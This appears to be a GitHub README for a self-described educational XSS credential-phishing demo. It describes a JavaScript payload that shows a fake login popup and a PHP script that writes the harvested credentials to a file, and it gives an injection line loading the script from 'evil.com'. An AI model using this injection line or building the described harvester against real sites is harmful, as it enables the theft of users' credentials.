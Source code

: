 # xss (Cross Site Social-engineering)

simple implementasion of social engineering from xss
--for education purpose only--

# about this repository
This repository will tell you how bad xss it is

# what is xss ?
Cross-site scripting is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. --Wikipedia--

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. --OWASP--

# content in this repository
x.js
simple javascript payload to trigger user to give them credential's and send them to x.php

x.php
simple php script to receive credential's from x.js and write it to creds.txt

creds.txt
file that store credential's from x.php and x.js

# how it's work ?
```x.js```, ```x.php```, and ```creds.txt``` stored at evil.com then attacker use xss payload
to your website that vulnerable from xss --> ```<script src=https://evil.com/x.js></script>```

if xss reflected, attacker usually use shortlink to avoid suspicion and make the user of your website click into it
if xss stored, attacker usually just wait for the payload triggered from another user

and this will happen
![popup](img)

if the user of your website doesn't aware about security then they just believe it and don't know that was a scam accidentally they send their credential to the evil.com

# how prevent from xss ?
make sure filter any input from your website and don't forget to strip any html tags

# is xss just pop-up only ?
NO, attacker can use any javascript payload to use your website that vulnerable from xss
for any variation payload see it here http://www.xss-payloads.com/payloads-list.html?a#category=all


